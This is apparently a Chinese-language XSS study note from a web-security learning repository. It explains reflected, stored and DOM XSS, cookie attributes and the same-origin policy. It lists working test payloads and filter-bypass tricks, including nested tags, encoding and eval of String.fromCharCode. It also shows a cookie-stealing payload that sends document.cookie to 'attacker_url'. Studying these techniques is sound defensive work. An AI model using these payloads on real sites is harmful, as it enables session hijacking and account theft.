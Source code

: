 ## Cross-Site Scripting  
[同源策略](https://github.com/shinmao/Web-Security-Learning/blob/master/XSS/Same-Origin%20Policy.md)  
XSS是發生在前端的，讓瀏覽器去執行攻擊代碼。使用腳本附加在連結或文本中可以讀取本地cookie或者擷取封包, 常見的防禦手勢就是使用**http-only**來限制http protocol才能訪問cookie內容, 以及使用**https**安全協定!  
1. reflected xss (非持久型):  
我將引用[The web application hackers handbook](https://www.amazon.com/Web-Application-Hackers-Handbook-Exploiting/dp/1118026470)裡面的例子來解釋  
```js
url/error?message=an+error+occurred
// 頁面裡的html則是<p>an error occured</p>
```  
於是這邊我們就可以合理懷疑，頁面是將變數message的值複製到標籤中。reflected xss漏洞就在這邊，我們可以將<script>alert(1)</script>直接注入到url中的message參數(沒有過濾的話)，一個內容是1的彈窗馬上就會出現！  
Server收到**偽造的攻擊request**並且response，這就是reflected xss  
  
2. stored xss (持久型):  
Forum或者留言板中, 在文本中加入script. (前端可能用ajax讀取內容  
  
3. DOM xss:  
在DOM元素中加入事件, 觸發script.  
注意: reflective型 以及 stored型 才會與server有互動，因為server需要解析惡意代碼，而DOM型則是完全由客戶端js執行。  

### XSS Vulnerability exists?
這裡先不談XSS探針...  
我習慣直接注入sciprt語句作測試，常見語句如下:  
```js
<script>alert(/1/);<script>
<script>a=prompt;a(1)</script>
<img src=1 onmouseover=alert(1)>
<img src=1 onerror=confirm(1)>
<img src="javascript:alert(1);">
<a href=1 onload=alert(1)>hi</a>
```
從上面我可以大致推斷攻擊代碼多為直接彈窗，或者觸發事件!  

### XSS and Cookie
Cookie format: ```key: value```  
當client端向server端發出請求時，server會回傳一個set-cookie的標頭  
```set-cookie(name, expires, path, domain, secure, httponly) // 除了name後面幾個參數不一定要給值```  
```expires```: 若未設定，則是**End of Browser Session**，瀏覽器一關閉就會刪除!  
```secure```: 限定在https中傳輸  
```httponly```: 限制js去存取cookie  
[cookie reference](https://www.csie.ntu.edu.tw/~r92092/html/tech/cookie.html)  
如何hijack user's cookie?  
1. 上面有提到user在登入後就會拿到一個帶有session token的```set-cookie```標頭  
2. hacker把惡意連結餵給user：  
```php
url/hi?message=<script>var+i=new+Image;+i.src="attacker_url/"+document.cookie;</script>
```
3. user用惡意連結對server發出請求  
server會執行以上js代碼對hacker的host發出請求，其中就帶有user的token：  
```php
GET /sessId=xxxxxxxxxxxxxxxxxxxx HTTP/1.1
Host: attacker_url
```
[MYTH]為何不直接構造```attacker_url/hi?message=<script>...</script>```就好？何必要去server端找xss漏洞？  
這關係到**同源政策**：cookie只能回傳到當初發送它的domain，也只能accessed by 該domain頁面的javascript!  
我們在回到上面的惡意連結：user送出惡意構造的要求，該domain server回傳一個包含該javascript的頁面  
**到這裡, server已經信任這個js跟它是同源的！所以也會執行把cookie發送出去...**

### 常見限制 < 對抗手勢
* filter 對一些危險標籤做過濾  
  * 大小寫混用  
  * 一次過濾繞過 e.g.```<scr<script>ipt>```  
  * 不如換個方式不使用到限制字符 e.g.```<img src=1 onerror=alert(1)>```
* encode 轉譯危險標籤  
  * url encode: % + ASCII(hex) ```%3Cscript%3E```  
  補充js常見處理函式: ```escape()/unescape(), encodeURL()/decodeURL(), encodeURLComponent()/decodeURLComponent()```  
  * html encode  
  * unicode encode: %u + ASCII(hex)  
  * ascii encode  
  ```js
  eval(String.fromCharCode(97,108,101,114,116,40,49,41))
  // <script>alert(1)</script>
  ```
  String.fromCharCode() 將unicode字碼轉換成字串 [Manual](https://www.w3schools.com/jsref/jsref_fromCharCode.asp)  
  eval() 執行參數中的js語句 [Manual](https://www.w3schools.com/jsref/jsref_eval.asp)  
* length limit  
  * 外部引入自己的script ```<script src=".js"></script>```  
* 未過濾\n類符號  
```js
<img src="javas
cript:
alert(/1/);">
```  
### Reference
1. The Web Application Hacker's Handbook
